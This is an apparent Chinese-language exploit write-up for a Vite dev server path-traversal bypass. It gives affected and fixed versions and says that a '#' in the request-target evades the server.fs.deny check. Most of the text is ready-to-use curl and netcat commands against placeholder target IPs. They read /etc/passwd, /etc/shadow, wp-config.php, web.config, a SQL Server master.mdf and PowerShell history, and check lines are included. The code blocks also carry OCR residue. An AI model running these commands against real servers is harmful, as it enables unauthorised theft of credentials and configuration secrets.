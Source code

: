 **影响版本**  
: < 6.2.6, < 6.1.5, < 6.0.15, < 5.4.18, < 4.5.13  
  
**修复版本**  
: 6.2.6, 6.1.5, 6.0.15, 5.4.18, 4.5.13  
  
**利用原理**  
: 利用HTTP 1.1规范中不允许在request-target  
中使用#  
字符的特性。在Node和Bun运行时中，这些请求不会被内部拒绝，http.IncomingMessage.url  
包含#  
，而Vite在检查server.fs.deny  
时假设req.url  
不会包含#  
。  
  
**Linux系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 使用curl的--request-target选项
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../etc/passwd" "http://[目标IP]:5173"
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../etc/shadow" "http://[目标IP]:5173"
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../var/www/html/wp-config.php" "http://[目标IP]:5173"

# 或使用原始HTTP请求
echo -e "GET /@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../etc/passwd HTTP/1.1\r\nHost: [目标IP]:5173\r\nConnection: close\r\n\r\n" | nc [目标IP] 5173
echo -e "GET /@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../etc/shadow HTTP/1.1\r\nHost: [目标IP]:5173\r\nConnection: close\r\n\r\n" | nc [目标IP] 5173

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/etc/passwd"  # 应返回403错误
curl --request-target "/@fs/x/#/../../../../../etc/passwd" "http://[目标IP]:5173"  # 如果返回文件内容，则存在漏洞
```  
  
**Windows系统利用示例**  
:  
```
ounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(lineounter(line
# 使用curl的--request-target选项
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/Windows/win.ini" "http://[目标IP]:5173"
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/Windows/system32/drivers/etc/hosts" "http://[目标IP]:5173"
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/inetpub/wwwroot/web.config" "http://[目标IP]:5173"
curl --request-target "/@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/Program Files/Microsoft SQL Server/MSSQL15.SQLEXPRESS/MSSQL/DATA/master.mdf" "http://[目标IP]:5173"

# 或使用原始HTTP请求
echo -e "GET /@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/Windows/win.ini HTTP/1.1\r\nHost: [目标IP]:5173\r\nConnection: close\r\n\r\n" | nc [目标IP] 5173
echo -e "GET /@fs/Users/[用户名]/Desktop/vite-project/#/../../../../../C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt HTTP/1.1\r\nHost: [目标IP]:5173\r\nConnection: close\r\n\r\n" | nc [目标IP] 5173

# 验证漏洞是否存在
curl "http://[目标IP]:5173/@fs/C:/Windows/win.ini"  # 应返回403错误
curl --request-target "/@fs/x/#/../../../../../C:/Windows/win.ini" "http://[目标IP]:5173"  # 如果返回文件内容，则存在漏洞
```